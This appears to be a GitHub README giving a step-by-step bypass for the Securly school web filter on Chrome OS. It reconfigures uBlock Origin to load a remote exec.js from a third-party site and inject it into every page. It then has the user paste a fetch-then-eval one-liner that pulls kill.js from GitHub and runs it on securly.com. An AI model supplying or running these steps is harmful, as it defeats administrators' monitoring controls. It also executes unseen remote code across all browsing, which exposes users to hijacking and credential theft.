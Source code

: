
# I hate Securly



Fill with Securly bypasses and such and other chrome os bypasses because god forbid I use a computer for being a computer!


## SECURLY BYPASS UNBLOCK ORIGIN (Made By Zek-c Modified by Me)


[Tutorial On my Site!](https://jacksdamnserver.site/bypass/UnBlockOrigin/)
But if you dont wanna

1. Download uBlock Origin if not installed.

![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome.png)

2. Go to the settings in uBlock Origin.

![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome2.png)

3. Enable Advanced settings and click the gears.
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome3.png)

4. Change ```userResourcesLocation``` to ```userResourcesLocation https://jacksdamnserver.site/exec.js``` and hit apply.
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome4.png)

5.Now go back and click My Filters and set it to ```*##`+js(execute_script.js)``` and apply.
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome5.png)

6. Go to https://securly.com

7.Copy this Javascript ```fetch('https://raw.githubusercontent.com/ThisJackRN/i-hate-securly/main/kill.js').then(r => r.text()).then(r => eval(r))``` 

8. Do the keybind Ctrl+Shift+~ to show the eval prompt and place the copied code into the eval prompt and hit enter!
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome7.png)
9. Click the off button and you are done.
